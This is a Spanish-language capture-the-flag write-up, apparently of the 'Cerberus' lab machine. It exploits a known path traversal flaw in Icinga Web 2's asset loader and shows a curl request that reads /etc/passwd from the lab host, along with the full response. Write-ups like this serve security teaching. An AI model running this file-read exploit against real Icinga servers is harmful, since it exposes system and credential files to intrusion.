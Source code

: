 ![Web](/assets/writeups/cerberus/1.png)

A ver que le sacamos...

## Intrusión

### www-data - icinga (Ubuntu 22.04 Jammy)

Lo único que podemos sacar respecto a la versión de este servicio web es la fecha que se nos muestra en la página de autenticación (2013-2023), al no tener otra información nos tocará buscar vulnerabilidades conocidas... y en eso nos encontramos [este articulo de SonarSource](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/) que nos da contexto sobre una vulnerabilidad de tipo AFR (Arbitrary File Read) en el cargador de assets de librerias del software. Si probamos para ver si esta interfaz es vulnerable haciendo que nos devuelva el archivo `/etc/passwd` podremos ver que en efecto, es vulnerable

```bash
❯ curl -v "http://icinga.cerberus.local:8080/icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd"
*   Trying 10.10.11.205:8080...
* Connected to icinga.cerberus.local (10.10.11.205) port 8080 (#0)
> GET /icingaweb2/lib/icinga/icinga-php-thirdparty/etc/passwd HTTP/1.1
> Host: icinga.cerberus.local:8080
> User-Agent: curl/8.1.2
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Wed, 02 Aug 2023 17:10:29 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Cache-Control: public, max-age=1814400, stale-while-revalidate=604800
< Etag: 4019d-6b5-5f361871179c0
< Last-Modified: Sun, 29 Jan 2023 06:51:27 GMT
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain;charset=UTF-8
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
... [snip]
```